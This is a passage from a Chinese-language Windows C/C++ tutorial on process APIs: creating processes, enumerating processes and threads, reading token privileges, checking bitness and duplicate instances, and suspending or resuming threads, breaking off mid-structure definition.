WinExec 函数的返回值是一个无符号整数，它表示进程是否成功启动。若成功启动，则返回值为任务句柄。否则，返回值为0。但是该函数也存在一些问题，例如ANSI编码、不支持进程标识符等，建议在实际开发中使用更为灵活的`CreateProcess()`或`ShellExecute()`函数。

```c
#include <iostream>
#include <Windows.h>

BOOL WinExec(char *pszExePath, UINT uiCmdShow)
{
  UINT uiRet = 0;
  uiRet = WinExec(pszExePath, uiCmdShow);
  if (31 < uiRet)
  {
    return TRUE;
  }
  return FALSE;
}

int main(int argc, char * argv[])
{
  int ret = 0;
  ret = WinExec("c:\\windows\\system32\\notepad.exe",TRUE);
  printf("执行状态: %d \n", ret);

  system("pause");
  return 0;
}
```

创建进程的第二个函数是`ShellExecute`，该函数提供了很多功能，例如可以启动进程、打开文件、运行脚本等等。`ShellExecute()`函数的优点是可以控制进程的启动方式、传递命令参数，并对返回值进行判断，通过传递参数来控制启动进程的方式，比如最大化或最小化窗口，或者在后台启动进程。

该函函数原型如下：

```c
HINSTANCE ShellExecute(
  HWND    hwnd,
  LPCTSTR lpOperation,
  LPCTSTR lpFile,
  LPCTSTR lpParameters,
  LPCTSTR lpDirectory,
  INT     nShowCmd
);
```

参数说明：

 - hwnd：执行的窗口的句柄。可以为NULL，如果为NULL则表示没有窗口。
 - lpOperation：操作类型，可以是open或print。如果为NULL，则此函数将尝试打开文件。
 - lpFile：需要执行的目标文件、应用程序或者URL地址。
 - lpParameters：命令行参数。
 - lpDirectory：指定被启动程序的执行路径，如果为NULL，则使用当前程序路径。
 - nShowCmd：指定被启动程序的窗口状态。

该函数返回`HINSTANCE`类型的值，如果没有执行或则执行失败，它将返回一个值为`ERROR_FILE_NOT_FOUND`或`ERROR_BAD_FORMAT`的值。
```c
#include <iostream>
#include <Windows.h>

BOOL MyShellExecute(char *pszExePath, UINT uiCmdShow)
{
  HINSTANCE hInstance = 0;
  hInstance = ShellExecute(NULL, NULL, pszExePath, NULL, NULL, uiCmdShow);
  if (32 < (DWORD)hInstance)
  {
    return TRUE;
  }
  return FALSE;
}

int main(int argc, char * argv[])
{
  int ret = 0;
  ret = MyShellExecute("c:\\windows\\system32\\notepad.exe", TRUE);
  printf("执行状态: %d \n", ret);

  system("pause");
  return 0;
}
```

最后一个创建进程的函数是`CreateProcess()`该函数提供了比较灵活的进程控制，相比于其他`API`函数，例如`WinExec()`和`ShellExecute()` ，它可以更详细地控制进程的执行，如进程窗口的大小和位置，输出、输入和错误信息的控制等，并且能够获取到新进程的标识符以及进程句柄。同时`CreateProcess()`也具有更高的系统安全性。因此，在实际开发中，开发人员往往使用 `CreateProcess()`函数进行进程控制、管理和处理。

其函数原型如下：
```c
BOOL CreateProcess(
  LPCSTR                lpApplicationName,   // 可执行文件名或命令行调用
  LPSTR                 lpCommandLine,       // 字符串形式的命令行参数
  LPSECURITY_ATTRIBUTES lpProcessAttributes,// 进程的安全属性
  LPSECURITY_ATTRIBUTES lpThreadAttributes, // 线程的安全属性
  BOOL                  bInheritHandles,     // 建立进程时是否继承父句柄
  DWORD                 dwCreationFlags,     // 进程标记
  LPVOID                lpEnvironment,       // 进程环境空间块的指针
  LPCSTR                lpCurrentDirectory,  // 当前工作目录的指针
  LPSTARTUPINFOA        lpStartupInfo,       // 指向 StartupInfo 结构的指针
  LPPROCESS_INFORMATION lpProcessInformation // 指向 ProcessInformation 结构的指针
);
```

参数说明:

 - lpApplicationName：需要执行的可执行文件名或命令行调用。如果为NULL，则将使用lpCommandLine参数中的文件名
 - lpCommandLine：命令行参数，可以传递参数给可执行文件
 - lpProcessAttributes：进程的安全属性。一般为NULL
 - lpThreadAttributes：线程的安全属性。一般为NULL
 - bInheritHandles：指定新进程是否继承父进程的句柄
 - dwCreationFlags：指定进程的标记。常用的标记有NORMAL_PRIORITY_CLASS，表示新进程在普通优先级类中运行
 - lpEnvironment：进程环境空间块的指针，用于设置新进程的环境变量
 - lpCurrentDirectory：指定新进程的初始工作目录，如果为NULL，则使用与调用进程相同的当前目录
 - lpStartupInfo：指向STARTUPINFO结构体的指针
 - lpProcessInformation：进程信息结构，包括新进程的句柄和进程ID

 如果仅仅只是需要将一个进程拉起来，那么只需要传递三个参数即可，其余参数可以全部使用0进行填充，如下所示；
 ```c
#include <iostream>
#include <Windows.h>

BOOL ExecRun(LPCSTR exe_file)
{
  PROCESS_INFORMATION pi = { 0 };
  STARTUPINFO si = { 0 };
  si.cb = sizeof(STARTUPINFO);

  BOOL bRet = CreateProcessA(exe_file, 0, 0, 0, 0, 0, 0, 0, &si, &pi);

  if (bRet != FALSE)
    CloseHandle(pi.hProcess);
  return TRUE;
  return FALSE;
}

int main(int argc, char * argv[])
{
  int ret = 0;
  ret = ExecRun("c:\\windows\\system32\\notepad.exe");
  printf("执行状态: %d \n", ret);

  system("pause");
  return 0;
}
 ```

### 7.3 枚举进程相关

首先实现枚举当前系统中所有进程信息，枚举该进程的核心点在于使用`CreateToolhelp32Snapshot()`函数，该函数用于创建系统进程和线程快照，它可以捕获当前系统中进程和线程相关的信息（如PID、线程数量、线程ID等），在对这些信息进行处理后，可以获得很多有用的数据，如当前系统中所有正在执行的进程的信息列表，以及每个进程各自的详细信息（如CPU、内存占用量等）。

CreateToolhelp32Snapshot 函数原型如下：

```c
HANDLE CreateToolhelp32Snapshot(
  DWORD dwFlags,  // 快照类型标记
  DWORD th32ProcessID  // 进程PID，如果打算捕获系统所有进程的信息，则为0
);
```

参数说明：

 - dwFlags：表示快照类型标记。可以为TH32CS_SNAPALL、TH32CS_SNAPPROCESS或TH32CS_SNAPTHREAD。其中：
 - TH32CS_SNAPPROCESS：捕获当前系统中所有进程的信息；
 - TH32CS_SNAPTHREAD：捕获当前系统中所有线程的信息；
 - TH32CS_SNAPALL：捕获当前系统中所有进程和线程的信息；
 - th32ProcessID：进程PID，如果打算捕获系统所有进程的信息，则为0。

函数的返回值是一个句柄，它指向一个新创建的进程快照。如果函数调用失败，函数返回INVALID_HANDLE_VALUE。这个函数通常与`Process32First()`和`Process32Next()`一起使用，用于枚举进程和线程信息的快照。通过使用创建的进程快照句柄和枚举处理函数，可以获取当前系统中所有进程或线程的详细信息。

 - Process32First 获取快照中第一条记录，即第一个进程的信息，执行成功返回TRUE，并把第一个进程信息写入传入参数PE32指定的结构体中；
 - Process32Next 获取下一个进程的信息，执行成功返回TRUE，并把下一个进程信息写入传入参数PE32指定的结构体中；

```c
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>

int EnumProcess()
{
  PROCESSENTRY32 pe32 = { 0 };
  pe32.dwSize = sizeof(PROCESSENTRY32);

  // 获取全部进程快照
  HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE != hProcessSnap)
  {
    // 获取快照中第一条信息
    BOOL bRet = Process32First(hProcessSnap, &pe32);
    while (bRet)
    {
      printf("进程ID: %-5d --> 进程名: %s \n", pe32.th32ProcessID, pe32.szExeFile);
      // 获取快照中下一条信息
      bRet = Process32Next(hProcessSnap, &pe32);
    }
    CloseHandle(hProcessSnap);
  }
  return -1;
}

int main(int argc,char * argv [])
{
  EnumProcess();

  system("pause");
  return 0;

}
```
上述代码可用于枚举输出当前系统中所有的正在运行进程列表，通过在枚举过程中增加一个`_tcsicmp()`函数，判断`pe.szExeFile`与`szProcessName`两者的值我们就可以实现取特定进程的PID，如下代码所示则可实现取QQ进程的PID信息。
```c
#include <Windows.h>
#include <stdio.h>
#include <TlHelp32.h>
#include <tchar.h>

DWORD FindProcessID(LPCTSTR szProcessName)
{
  DWORD dwPID = 0xFFFFFFFF;
  HANDLE hSnapShot = INVALID_HANDLE_VALUE;
  PROCESSENTRY32 pe;
  pe.dwSize = sizeof(PROCESSENTRY32);
  hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPALL, NULL);
  Process32First(hSnapShot, &pe);
  do
  {
    if (!_tcsicmp(szProcessName, (LPCTSTR)pe.szExeFile))
    {
      dwPID = pe.th32ProcessID;
      break;
    }
  } while (Process32Next(hSnapShot, &pe));
  CloseHandle(hSnapShot);
  return dwPID;
}

int main(int argc,char *argv[])
{
  DWORD PID = FindProcessID(L"qq.exe");
  printf("该进程PID是: %d \n", PID);

  system("pause");
  return 0;
}
```

### 7.4 枚举进程权限

GetTokenInformation 用于检索进程或线程的令牌(Token)信息。Token是一个数据结构，其包含有关进程或线程的安全上下文，代表当前用户或服务的安全标识符和权限信息。

`GetTokenInformation()`函数可以用来获取这些安全信息，通常用于在运行时检查某个进程或线程的权限或安全信息。

该函数原型如下：
```c
BOOL GetTokenInformation(
  HANDLE TokenHandle,
  TOKEN_INFORMATION_CLASS TokenInformationClass,
  LPVOID TokenInformation,
  DWORD TokenInformationLength,
  PDWORD ReturnLength
);
```

参数说明：

 - TokenHandle：当前进程或线程令牌的句柄。
 - TokenInformationClass：表示要检索的Token信息类别，是TOKEN_INFORMATION_CLASS枚举类型的值之一。这个参数的值确定TokenInformation参数的方案，以及返回的信息类型。
 - TokenInformation：指向要接收信息的缓冲区的指针。
 - TokenInformationLength：要接收的缓冲区的大小（以字节为单位）。
 - ReturnLength：实际缓冲区的大小（以字节为单位）。

常见的TokenInformationClass值包括：

 - TokenUser：用户标识信息；
 - TokenGroups：组信息；
 - TokenOwner：所有者信息；
 - TokenPrimaryGroup：主组信息；
 - TokenPrivileges：特权信息；
 - TokenSessionId：会话ID信息。

该函数的返回值为BOOL类型。如果函数执行成功，则返回非零值，否则返回零。如果函数返回零，则可以调用 GetLastError() 函数获取错误代码。
```c
#include <stdio.h>
#include <ShlObj.h>
#include <Windows.h>

void ShowPrviliges(HANDLE process)
{
  // 通过进程句柄获取到进程令牌
  HANDLE hToken;
  OpenProcessToken(process, TOKEN_QUERY, &hToken);

  // 获取查询到的令牌信息
  DWORD dwSize;
  GetTokenInformation(hToken, TokenPrivileges, NULL, NULL, &dwSize);

  // 根据令牌中的大小分配空间
  char* pBuf = new char[dwSize] {};
  GetTokenInformation(hToken, TokenPrivileges, pBuf, dwSize, &dwSize);

  // 将内存中的内容用要查询数据结构体解析
  TOKEN_PRIVILEGES* pTp = (TOKEN_PRIVILEGES*)pBuf;
  DWORD dwCount = pTp->PrivilegeCount;               // 解析出权限个数
  LUID_AND_ATTRIBUTES* pluid = pTp->Privileges;      // 具备的权限类型

  for (int i = 0; i < dwCount; i++, pluid++)
  {
    char szName[100] = {};
    DWORD dwLen = sizeof(szName);
    LookupPrivilegeNameA(0, &pluid->Luid, szName, &dwLen);
    switch (pluid->Attributes)
    {
    case 0:
      printf("ID => %3d \t 状态 => 关闭 \t\t 类型 => %s \n", i, szName); break;
    case 1:
      printf("ID => %3d \t 状态 => 默认 \t\t 类型 => %s \n", i, szName); break;
    case 2:
      printf("ID => %3d \t 状态 => 开启 \t\t 类型 => %s \n", i, szName); break;
    case 3:
      printf("ID => %3d \t 状态 => 默认开启 \t\t 类型 => %s \n", i, szName); break;
    }
  }
  delete pBuf;
}

int main(int argc, char* argv[])
{
  // 拿到自身程序的句柄
  HANDLE LocalProcess = GetCurrentProcess();
  ShowPrviliges(LocalProcess);

  system("pause");
  return 0;
}
```

如下所示代码同样是一段权限检索的实现，函数`EnumOwner()`接受一个指向进程令牌的句柄，并使用它来检索有关令牌用户的信息。使用`GetTokenInformation()`获取一个包含令牌用户的安全标识符（`SID`）指针的`TOKEN_USER`结构。然后，它使用`LocalAlloc()`为`SID`分配内存，并使用`CopySid()`将`SID`复制到该内存中。最后使用`LookupAccountSid()`检索与`SID`相关联的用户账户的名称。函数返回指向包含账户名称的字符字符串的指针。

在`main()`函数中使用`OpenProcess()`和`PROCESS_QUERY_INFORMATION`标志检索当前进程的句柄。然后，它使用`OpenProcessToken()`和`TOKEN_QUERY`标志检索进程令牌的句柄。将该句柄传递给`EnumOwner()`以检索与令牌相关联的用户账户名称。最后使用`printf()`打印账户名称，使用`CloseHandle()`关闭令牌句柄，使用`CloseHandle()`关闭进程句柄。
```c
#include <stdio.h>
#include <Windows.h>
#include <TlHelp32.h>

// 通过进程Token获取进程权限类型
char * __stdcall EnumOwner(HANDLE htoken)
{
  DWORD dwLen;
  PSID pSid = 0;
  TOKEN_USER* pWork;
  SID_NAME_USE use;
  TCHAR User[256], Domain[256];

  GetTokenInformation(htoken, TokenUser, NULL, 0, &dwLen);
  pWork = (TOKEN_USER*)LocalAlloc(LMEM_ZEROINIT, dwLen);
  if (GetTokenInformation(htoken, TokenUser, pWork, dwLen, &dwLen))
  {
    dwLen = GetLengthSid(pWork->User.Sid);
    pSid = (PSID)LocalAlloc(LMEM_ZEROINIT, dwLen);
    CopySid(dwLen, pSid, pWork->User.Sid);
    dwLen = 256;
    LookupAccountSid(NULL, pSid, &User[0], &dwLen, &Domain[0], &dwLen, &use);
    // printf("\t 主机 => %s \t 权限用户 => %s ", Domain, User);
    return User;
  }
  return NULL;
}

int main(int argc, char* argv[])
{
  HANDLE ProcessHandle, hToken;

  ProcessHandle = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE,GetCurrentProcessId());
  if (ProcessHandle != NULL)
  {
    if (OpenProcessToken(ProcessHandle, TOKEN_QUERY, &hToken))
    {
      char *token = EnumOwner(hToken);
      printf("[+] 当前进程身份: %s \n", token);
      CloseHandle(hToken);
      CloseHandle(ProcessHandle);
    }
  }

  system("pause");
  return 0;
}
```

### 7.5 判断进程状态

进程状态的判断包括验证进程是否存在，实现方法是通过枚举系统内的所有进程信息，并将该进程名通过`CharLowerBuff`转换为小写，当转换为小写模式后则就可以通过使用`strcmp`函数对比，如果发现继承存在则返回该进程的PID信息，否则返回-1

```c
int GetProcessStatus(const char *procressName)
{
  char pName[MAX_PATH];
  strcpy(pName, procressName);                           // 拷贝数组
  CharLowerBuff(pName, MAX_PATH);                        // 将名称转换为小写
  
  PROCESSENTRY32 currentProcess;                                    // 存放快照进程信息的一个结构体
  currentProcess.dwSize = sizeof(currentProcess);                   // 在使用这个结构之前,先设置它的大小
  HANDLE hProcess = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0); // 给系统内的所有进程拍一个快照

  if (INVALID_HANDLE_VALUE != hProcess)
  {
    BOOL bMore = Process32First(hProcess, &currentProcess);
    while (bMore)
    {
      CharLowerBuff(currentProcess.szExeFile, MAX_PATH);        // 将进程名转换为小写
      if (strcmp(currentProcess.szExeFile, pName) == 0)         // 比较是否存在此进程
      {
        CloseHandle(hProcess);
        return currentProcess.th32ProcessID;
      }
      bMore = Process32Next(hProcess, &currentProcess);
    }
    CloseHandle(hProcess);
  }
  return -1;
}
```

有时候我们需要判断自身进程是否被重复运行了，这种需求在软件开发中经常会遇到，通常该需求可以使用`CreateMutex`创建或打开一个互斥量对象（`Mutex Object`），在多线程/进程的环境下，互斥量可用于控制对某个共享资源的访问。其函数声明如下：

```c
HANDLE CreateMutex(
  LPSECURITY_ATTRIBUTES lpMutexAttributes,
  BOOL                  bInitialOwner,
  LPCTSTR               lpName
);
```

其中，`lpMutexAttributes` 是用于指定新创建的互斥量的安全描述符的指针；`bInitialOwner` 表示一个布尔值，指定初始所有权标记，为 `TRUE` 表示调用线程将拥有该互斥量，否则表示它不属于调用线程；`lpName` 是可选的，用于命名互斥体，以使得其他线程或者进程可以通过这个名字来打开该互斥量对象。

CreateMutex 函数会返回一个内核对象句柄，用于在之后对该互斥体进行引用和操作，通过使用互斥体可以很容易的实现对进程运行状态的判断。

```C
#include <Windows.h>
#include <stdio.h>

// 判断是否重复运行
BOOL IsAlreadyRun()
{
  HANDLE hMutex = NULL;
  hMutex = CreateMutex(NULL, FALSE, "RUN");
  if (hMutex)
  {
    if (ERROR_ALREADY_EXISTS == GetLastError())
      return TRUE;
  }
  return FALSE;
}

int main(int argc, const char * argv[])
{
  if (IsAlreadyRun() == TRUE)
    printf("重复运行 \n");
  else
    printf("没有重复运行 \n");

  system("pause");
  return 0;
}
```

对进程位数的判断也是有必要的，通常在Windows系统下进程位数的有多种方法实现，第一种方式`GetNativeSystemInfo`调用该函数并判断函数内的特定成员，即可得到当前系统是否为64位，当然通过使用`Is64BitPorcess`函数也可实现对特定进程的判断，此方式实现原理是通过调用`IsWow64Process`函数实现；

```C
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>

// 判断自身系统是否为64位
BOOL IsSelf64bitSystem()
{
  SYSTEM_INFO si;
  GetNativeSystemInfo(&si);
  if (si.wProcessorArchitecture == PROCESSOR_ARCHITECTURE_AMD64 ||
    si.wProcessorArchitecture == PROCESSOR_ARCHITECTURE_IA64)
    return TRUE;
  else
    return FALSE;
}

// 判断指定进程是否为64位进程
BOOL Is64BitPorcess(DWORD dwProcessID)
{
  HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, dwProcessID);
  if (hProcess)
  {
    typedef BOOL(WINAPI *LPFN_ISWOW64PROCESS) (HANDLE, PBOOL);
    LPFN_ISWOW64PROCESS fnIsWow64Process = (LPFN_ISWOW64PROCESS)
      GetProcAddress(GetModuleHandleW(L"kernel32"), "IsWow64Process");
    if (NULL != fnIsWow64Process)
    {
      BOOL bIsWow64 = FALSE;
      fnIsWow64Process(hProcess, &bIsWow64);
      CloseHandle(hProcess);
      if (bIsWow64)
        return FALSE;
      else
        return TRUE;
    }
  }
  return FALSE;
}

int main(int argc, char *argv[])
{
  PROCESSENTRY32 pe32;
  pe32.dwSize = sizeof(pe32);

  HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  BOOL bMore = Process32First(hProcessSnap, &pe32);

  while (bMore)
  {
    printf("进程PID: %5d 是否64位: %d 进程名称: %s\n",
      pe32.th32ProcessID, Is64BitPorcess(pe32.th32ProcessID), pe32.szExeFile);

    bMore = Process32Next(hProcessSnap, &pe32);
  }
  system("pause");
  return 0;
}
```

### 7.6 挂起/恢复进程

挂起/恢复进程是指暂停或恢复进程的工作状态，以达到一定的控制和管理效果。在 Windows 操作系统中，可以使用系统提供的函数实现进程的挂起和恢复，以达到对进程的控制和调度。需要注意，过度使用进程挂起/恢复操作可能会造成系统性能的降低，导致死锁等问题，因此在使用时应该谨慎而慎重。同时，通过和其他进程之间协同工作，也可以通过更加灵活的方式，实现进程的协调、交互等相应的功能，从而实现更加高效和可靠的进程管理。

要实现挂起进程，首先我们需要实现挂起线程，因为挂起进程的实现原理是通过调用`SuspendThread`函数循环将进程内的所有线程全部挂起后实现的，而要实现挂起线程则我们需要先确定指定进程内的线程信息，要实现枚举进程内的线程信息则可以通过以下几个步骤实现。

首先通过`CreateToolhelp32Snapshot`得到当前系统下所有的进程快照，并通过遍历进程的方式寻找是否符合我们所需要枚举的进程名，如果是则调用`CreateToolhelp32Snapshot`并通过传入`TH32CS_SNAPTHREAD`代表枚举线程，通过循环的方式遍历进程内的线程，每次通过调用`OpenThread`打开线程，并调用`ZwQueryInformationThread`查询该线程的入口信息以及线程所在的模块信息，最后以此输出即可得到当前进程内的所有线程信息。

```c
#include <iostream>
#include <Windows.h>  
#include <TlHelp32.h>
#include <Psapi.h>

using namespace std;

typedef enum _THREADINFOCLASS
{
  ThreadBasicInformation,
  ThreadTimes,
  ThreadPriority,
  ThreadBasePriority,
  ThreadAffinityMask,
  ThreadImpersonationToken,
  ThreadDescriptorTableEntry,
  ThreadEnableAlignmentFaultFixup,
  ThreadEventPair_Reusable,
  ThreadQuerySetWin32StartAddress,
  ThreadZeroTlsCell,
  ThreadPerformanceCount,
  ThreadAmILastThread,
  ThreadIdealProcessor,
  ThreadPriorityBoost,
  ThreadSetTlsArrayAddress,
  ThreadIsIoPending,
  ThreadHideFromDebugger,
  ThreadBreakOnTermination,
  MaxThreadInfoClass
}THREADINFOCLASS;

typedef struct _CLIENT_ID
{
  HANDLE UniqueProcess;
  HANDLE UniqueThread;
}CLIENT_ID;

typedef struct _THREAD_BASIC_INFORMATION
{
  LONG ExitStatus;
  PVOID TebBaseAddress;
  CLIENT_ID ClientId;
  LONG AffinityMask;
  LONG Priority;
  LONG BasePriority;
}THREAD_BASIC_INFORMATION, *PTHREAD_BASIC_INFORMATION;

extern "C" LONG(__stdcall * ZwQueryInformationThread)
(
IN HANDLE ThreadHandle,
IN THREADINFOCLASS ThreadInformationClass,
OUT PVOID ThreadInformation,
IN ULONG ThreadInformationLength,
OUT PULONG ReturnLength OPTIONAL
) = NULL;

// 枚举进程内的线程
BOOL EnumThread(char *ProcessName)
{
  // 进程快照句柄
  HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  PROCESSENTRY32 process = { sizeof(PROCESSENTRY32) };

  // 遍历进程
  while (Process32Next(hProcessSnap, &process))
  {
    // char* 转 string
    string s_szExeFile = process.szExeFile;
    if (s_szExeFile == ProcessName)
    {
      HANDLE hThreadSnap = INVALID_HANDLE_VALUE;
      THREADENTRY32 te32;

      // 创建线程快照
      hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
      if (hThreadSnap == INVALID_HANDLE_VALUE)
      {
        return FALSE;
      }

      // 为快照分配内存空间
      te32.dwSize = sizeof(THREADENTRY32);

      // 获取第一个线程的信息
      if (!Thread32First(hThreadSnap, &te32))
      {
        return FALSE;
      }

      // 遍历线程
      while (Thread32Next(hThreadSnap, &te32))
      {
        // 判断线程是否属于本进程
        if (te32.th32OwnerProcessID == process.th32ProcessID)
        {
          // 打开线程
          HANDLE hThread = OpenThread(
            THREAD_ALL_ACCESS,        // 访问权限
            FALSE,                    // 由此线程创建的进程不继承线程的句柄
            te32.th32ThreadID         // 线程 ID
            );
          if (hThread == NULL)
          {
            return FALSE;
          }

          // 将区域设置设置为从操作系统获取的ANSI代码页
          setlocale(LC_ALL, ".ACP");

          // 获取 ntdll.dll 的模块句柄
          HINSTANCE hNTDLL = ::GetModuleHandle("ntdll");

          // 从 ntdll.dll 中取出 ZwQueryInformationThread
          (FARPROC&)ZwQueryInformationThread = GetProcAddress(hNTDLL, "ZwQueryInformationThread");

          // 获取线程入口地址
          PVOID startaddr;                          // 用来接收线程入口地址
          ZwQueryInformationThread(
            hThread,                              // 线程句柄
            ThreadQuerySetWin32StartAddress,      // 线程信息类型 ThreadQuerySetWin32StartAddress 线程入口地址
            &startaddr,                           // 指向缓冲区的指针
            sizeof(startaddr),                    // 缓冲区的大小
            NULL
            );

          // 获取线程所在模块
          THREAD_BASIC_INFORMATION tbi;            // _THREAD_BASIC_INFORMATION 结构体对象
          TCHAR modname[MAX_PATH];                 // 用来接收模块全路径
          ZwQueryInformationThread(
            hThread,                             // 线程句柄
            ThreadBasicInformation,              // 线程信息类型，ThreadBasicInformation ：线程基本信息
            &tbi,                                // 指向缓冲区的指针
            sizeof(tbi),                         // 缓冲区的大小
            NULL
            );

          // 检查入口地址是否位于某模块中
          GetMappedFileName(
            OpenProcess(                                        // 进程句柄
            PROCESS_ALL_ACCESS,                                 // 访问权限
            FALSE,                                              // 由此线程创建的进程不继承线程的句柄
            (DWORD)tbi.ClientId.UniqueProcess                   // 唯一进程 ID
            ),
            startaddr,                            // 要检查的地址
            modname,                              // 用来接收模块名的指针
            MAX_PATH                              // 缓冲区大小
            );
          std::cout << "线程ID: " << te32.th32ThreadID << " 线程入口: " << startaddr << " 所在模块: " << modname << std::endl;
        }
      }
    }
  }
}

int main(int argc, char* argv[])
{
  EnumThread("lyshark.exe");

  system("pause");
  return 0;
}
```

读者可自行运行上述代码片段，即可枚举出当前运行进程`lyshark.exe`中所有的后动线程信息，如下图所示；



当我们能够得到当前进程内的线程信息后，接下来就是实现如何挂起或恢复进程内的特定线程，挂起线程可以使用`SuspendThread `其函数声明如下：

```c
DWORD SuspendThread(
  HANDLE hThread
);
```

其中，`hThread` 是一个指向线程句柄的指针，指向要挂起的线程的句柄，该函数返回挂起前线程的线程计数器值，表示被挂起线程在挂起前还未执行的指令数目。

可以多次调用 `SuspendThread` 函数将同一个线程进行多次挂起，每次返回被挂起前线程的线程计数器值，每调用一次则会阻塞该线程，其状态会变为挂起状态。当该线程被 `ResumeThread` 恢复时，它将继续从上次挂起时的位置开始执行。

ResumeThread 函数声明如下：

```c
DWORD ResumeThread(
  HANDLE hThread
);
```

其中，`hThread` 是线程句柄，指向要恢复的线程的句柄。

调用 `ResumeThread` 函数可以让一个被挂起的线程从上次挂起的位置开始继续执行，函数返回值是被恢复的线程的先前挂起次数。当被恢复的线程的挂起计数器归零时，其状态将自动变为非挂起状态，并开始继续执行。

当有了上述两个函数的支持那么挂起线程将变得很容易实现了，首先后去所有进程快照，接着就是直接打开`OpenThread()`符合要求的线程，此时只需要调用`SuspendThread(hThread)`即可挂起一个线程，调用`ResumeThread(hThread)`则可以恢复一个线程，具体实现代码如下所示；

```c
#include <windows.h>
#include <stdio.h>
#include <TlHelp32.h>

int Start_Stop_Thread(DWORD Pid, DWORD ThreadID, BOOL flag)
{
    THREADENTRY32 te32 = { 0 };
    te32.dwSize = sizeof(THREADENTRY32);

    // 获取全部线程快照
    HANDLE hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    if (INVALID_HANDLE_VALUE != hThreadSnap)
    {
        // 获取快照中第一条信息
        BOOL bRet = Thread32First(hThreadSnap, &te32);
        while (bRet)
        {
            // 只过滤出 pid 里面的线程
            if (Pid == te32.th32OwnerProcessID)
            {
                // 判断是否为ThreadID,暂停指定的TID
                if (ThreadID == te32.th32ThreadID)
                {
                    // 打开线程
                    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, te32.th32ThreadID);

                    if (flag == TRUE)
                    {
                        ResumeThread(hThread);     // 恢复线程
                    }
                    else
                    {
                        SuspendThread(hThread);     // 暂停线程
                    }
                    CloseHandle(hThreadSnap);
                }
            }
            // 获取快照中下一条信息
            bRet = Thread32Next(hThreadSnap, &te32);
        }
        return 0;
    }
    return -1;
}

int main(int argc, char* argv[])
{
    // 暂停或恢复进程ID = 4204 里面的线程ID = 10056
    int ret = Start_Stop_Thread(4204, 10056, TRUE);    // TRUE = 恢复线程 FALSE = 挂起线程
    printf("状态: %d \n", ret);

    system("pause");
    return 0;
}
```

当有了上述功能的支持以后，那么实现挂起进程将变得很容易，读者只需要在特定一个进程内枚举出所有的活动线程，并通过循环的方式逐个挂起即可实现挂起整个进程的效果，这段完整代码如下所示；

```C
#include <windows.h>
#include <iostream>
#include <tlhelp32.h>
#include <Psapi.h>

#pragma comment(lib,"psapi.lib")

#define NT_SUCCESS(Status) ((NTSTATUS)(Status) >= 0)
#define SystemProcessesAndThreadsInformation    5       // 功能号
typedef DWORD(WINAPI* PQUERYSYSTEM)(UINT, PVOID, DWORD, PDWORD);

// 线程状态的枚举常量
typedef enum _THREAD_STATE
{
  StateInitialized,    // 初始化状态
  StateReady,          // 准备状态
  StateRunning,        // 运行状态
  StateStandby,
  StateTerminated,     // 关闭
  StateWait,           // 等待
  StateTransition,     // 切换
  StateUnknown
}THREAD_STATE;

// 线程处于等待的原因的枚举常量
typedef enum _KWAIT_REASON
{
  Executive,
  FreePage,
  PageIn,
  PoolAllocation,
  DelayExecution,
  Suspended,
  UserRequest,
  WrExecutive,
  WrFreePage,
  WrPageIn,
  WrPoolAllocation,
  WrDelayExecution,
  WrSuspended,
  WrUserRequest,
  WrEventPair,
  WrQueue,
  WrLpcReceive,
  WrLpcReply,
  WrVirtualMemory,
  WrPageOut,
  WrRendezvous,
  Spare2,
  Spare3,
  Spare4,
  Spare5,
  Spare6,
  WrKernel,
  MaximumWaitReason
}KWAIT_REASON;

typedef LONG   NTSTATUS;
typedef LONG   KPRIORITY;

typedef struct _CLIENT_ID
{
  DWORD        UniqueProcess;
  DWORD        UniqueThread;
} CLIENT_ID, * PCLIENT_ID;

typedef struct _VM_COUNTERS
{
  SIZE_T        PeakVirtualSize;
  SIZE_T        VirtualSize;
  ULONG         PageFaultCount;
  SIZE_T        PeakWorkingSetSize;
  SIZE_T        WorkingSetSize;
  SIZE_T        QuotaPeakPagedPoolUsage;
  SIZE_T        QuotaPagedPoolUsage;
  SIZE_T        QuotaPeakNonPagedPoolUsage;
  SIZE_T        QuotaNonPagedPoolUsage;
  SIZE_T        PagefileUsage;
  SIZE_T        PeakPagefileUsage;
} VM_COUNTERS;

// 线程信息结构体
typedef struct _SYSTEM_THREAD_INFORMATION
{
  LARGE_INTEGER   KernelTime;
  LARGE_INTEGER   UserTime;
  LARGE_INTEGER   CreateTime;
  ULONG           WaitTime;
  PVOID           StartAddress;
  CLIENT_ID       ClientId;
  KPRIORITY       Priority;
  KPRIORITY       BasePriority;
  ULONG           ContextSwitchCount;
  LONG            State;// 状态,是THREAD_STATE枚举类型中的一个值
  LONG            WaitReason;//等待原因, KWAIT_REASON中的一个值
} SYSTEM_THREAD_INFORMATION, * PSYSTEM_THREAD_INFORMATION;


typedef struct _UNICODE_STRING
{
  USHORT Length;
  USHORT MaximumLength;
  PWSTR  Buffer;
} UNICODE_STRING, * PUNICODE_STRING;

// 进程信息结构体
typedef struct _SYSTEM_PROCESS_INFORMATION
{
  ULONG            NextEntryDelta;    // 指向下一个结构体的指针
  ULONG            ThreadCount;       // 本进程的总线程数
  ULONG            Reserved1[6];      // 保留
  LARGE_INTEGER    CreateTime;        // 进程的创建时间
  LARGE_INTEGER    UserTime;          // 在用户层的使用时间
  LARGE_INTEGER    KernelTime;        // 在内核层的使用时间
  UNICODE_STRING   ProcessName;       // 进程名
  KPRIORITY        BasePriority;
  ULONG            ProcessId;         // 进程ID
  ULONG            InheritedFromProcessId;
  ULONG            HandleCount;       // 进程的句柄总数
  ULONG            Reserved2[2];      // 保留
  VM_COUNTERS      VmCounters;
  IO_COUNTERS      IoCounters;
  SYSTEM_THREAD_INFORMATION Threads[5];    // 子线程信息数组
